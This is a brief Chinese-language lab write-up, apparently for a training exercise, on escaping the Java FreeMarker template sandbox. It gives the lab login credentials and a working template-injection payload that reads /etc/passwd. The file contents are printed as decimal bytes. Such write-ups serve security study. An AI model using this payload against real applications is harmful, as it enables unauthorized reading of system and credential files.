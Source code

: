 You can log in to your own account using the following credentials: content-manager:C0nt3ntM4n4g3r 

### 題目解釋
Java FreeMarker 沙盒逃逸 + 讀檔

### 解答

觀察修改貼的地方有出現 `${product.stock} `

如果只寫 `${product}` 會噴說是一個 `FreeMarkerProduct` 的物件


讀檔 Payload
```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

可以讀出一段數字

```
 114 111 111 116 58 120 58 48 58 48 58 114 111 111 116 58 47 114 111 111 116 58 47 98 105 110 47 98 97 115 104 10 100 97 101 109 111 110 58 120 58 49 58 49 58 100 97 101 109 111 110 58 47 117 115 114 47 115 98 105 110 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 98 105 110 58 120 58 50 58 50 58 98 105 110 58 47 98 105 110 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 115 121 115 58 120 58 51 58 51 58 115 121 115 58 47 100 101 118 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 115 121 110 99 58 120 58 52 58 54 53 53 51 52 58 115 121 110 99 58 47 98 105 110 58 47 98 105 110 47 115 121 110 99 10 103 97 109 101 115 58 120 58 53 58 54 48 58 103 97 109 101 115 58 47 117 115 114 47 103 97 109 101 115 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 109 97 110 58 120 58 54 58 49 50 58 109 97 110 58 47 118 97 114 47 99 97 99 104 101 47 109 97 110 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 108 112 58 120 58 55 58 55 58 108 112 58 47 118 97 114 47 115 112 111 111 108 47 108 112 100 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 109 97 105 108 58 120 58 56 58 56 58 109 97 105 108 58 47 118 97 114 47 109 97 105 108 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 110 101 119 115 58 120 58 57 58 57 58 110 101 119 115 58 47 118 97 114 47 115 112 111 111 108 47 110 101 119 115 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 117 117 99 112 58 120 58 49 48 58 49 48 58 117 117 99 112 58 47 118 97 114 47 115 112 111 111 108 47 117 117 99 112 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 112 114 111 120 121 58 120 58 49 51 58 49 51 58 112 114 111 120 121 58 47 98 105 110 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 119 119 119 45 100 97 116 97 58 120 58 51 51 58 51 51 58 119 119 119 45 100 97 116 97 58 47 118 97 114 47 119 119 119 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 98 97 99 107 117 112 58 120 58 51 52 58 51 52 58 98 97 99 107 117 112 58 47 118 97 114 47 98 97 99 107 117 112 115 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 108 105 115 116 58 120 58 51 56 58 51 56 58 77 97 105 108 105 110 103 32 76 105 115 116 32 77 97 110 97 103 101 114 58 47 118 97 114 47 108 105 115 116 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 105 114 99 58 120 58 51 57 58 51 57 58 105 114 99 100 58 47 118 97 114 47 114 117 110 47 105 114 99 100 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 103 110 97 116 115 58 120 58 52 49 58 52 49 58 71 110 97 116 115 32 66 117 103 45 82 101 112 111 114 116 105 110 103 32 83 121 115 116 101 109 32 40 97 100 109 105 110 41 58 47 118 97 114 47 108 105 98 47 103 110 97 116 115 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 110 111 98 111 100 121 58 120 58 54 53 53 51 52 58 54 53 53 51 52 58 110 111 98 111 100 121 58 47 110 111 110 101 120 105 115 116 101 110 116 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 95 97 112 116 58 120 58 49 48 48 58 54 53 53 51 52 58 58 47 110 111 110 101 120 105 115 116 101 110 116 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 112 101 116 101 114 58 120 58 49 50 48 48 49 58 49 50 48 48 49 58 58 47 104 111 109 101 47 112 101 116 101 114 58 47 98 105 110 47 98 97 115 104 10 99 97 114 108 111 115 58 120 58 49 50 48 48 50 58 49 50 48 48 50 58 58 47 104 111 109 101 47 99 97 114 108 111 115 58 47 98 105 110 47 98 97 115 104 10 117 115 101 114 58 120 58 49 50 48 48 48 58 49 50 48 48 48 58 58 47 104 111 109 101 47 117 115 101 114 58 47 98 105 110 47 98 97 115 104 10 101 108 109 101 114 58 120 58 49 50 48 57 57 58 49 50 48 57 57 58 58 47 104 111 109 101 47 101 108 109 101 114 58 47 98 105 110 47 98 97 115 104 10 97 99 97 100 101 109 121 58 120 58 49 48 48 48 48 58 49 48 48 48 48 58 58 47 97 99 97 100 101 109 121 58 47 98 105 110 47 98 97 115 104 10 100 110 115 109 97 115 113 58 120 58 49 48 49 58 54 53 53 51 52 58 100 110 115 109 97 115 113 44 44 44 58 47 118 97 114 47 108 105 98 47 109 105 115 99 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 109 101 115 115 97 103 101 98 117 115 58 120 58 49 48 50 58 49 48 49 58 58 47 110 111 110 101 120 105 115 116 101 110 116 58 47 117 115 114 47 115 98 105 110 47 110 111 108 111 103 105 110 10 
```